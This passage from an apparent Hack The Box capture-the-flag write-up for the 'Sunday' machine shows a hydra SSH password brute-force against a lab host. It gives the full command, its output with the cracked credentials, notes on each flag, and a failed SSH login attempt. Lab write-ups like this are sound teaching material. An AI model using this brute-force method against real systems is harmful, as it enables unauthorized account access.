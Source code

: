 So we have a ssh entrypoint. We don’t have a password, so I’m going to try to brute-force it with hydra:

```
kali@kali:~/htb/Sunday$ sudo hydra -f -vV -I -l sunny -P /usr/share/wordlists/top12k.txt ssh://10.129.89.207 -s 22022 -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-30 19:24:49
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12646 login tries (l:1/p:12646), ~3162 tries per task
[DATA] attacking ssh://10.129.89.207:22022/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://sunny@10.129.89.207:22022
[INFO] Successful, password authentication is supported by ssh://10.129.89.207:22022
[ATTEMPT] target 10.129.89.207 - login "sunny" - pass "123456" - 1 of 12646 [child 0] (0/0)
[ATTEMPT] target 10.129.89.207 - login "sunny" - pass "password" - 2 of 12646 [child 1] (0/0)
[...]
[...]
[...]
[22022][ssh] host: 10.129.89.207   login: sunny   password: sunday
[STATUS] attack finished for 10.129.89.207 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-30 19:50:40
kali@kali:~/htb/Sunday$

```

-f stops when a match is found

-v prints more verbose informaion, like all combos being tried.

-V prints more verbose information about how hydra is running, Wether the addresses are resolved etc.

-I just makes it so hydra does not restart the previous search. It's useful for making sure hydra runs right. 

-s to select unusual ports

-t selects how many threads to use. 4 is reccommended for ssh.

And we got a hit, almost 30 minutes in. I wonder if there was another way to get the password except just guessing the password from the box name, which I feel is slightly cheap.

```
kali@kali:~/htb/Sunday$ sudo ssh sunny@10.129.89.207 -p 22022
[sudo] password for kali:
Unable to negotiate with 10.129.89.207 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
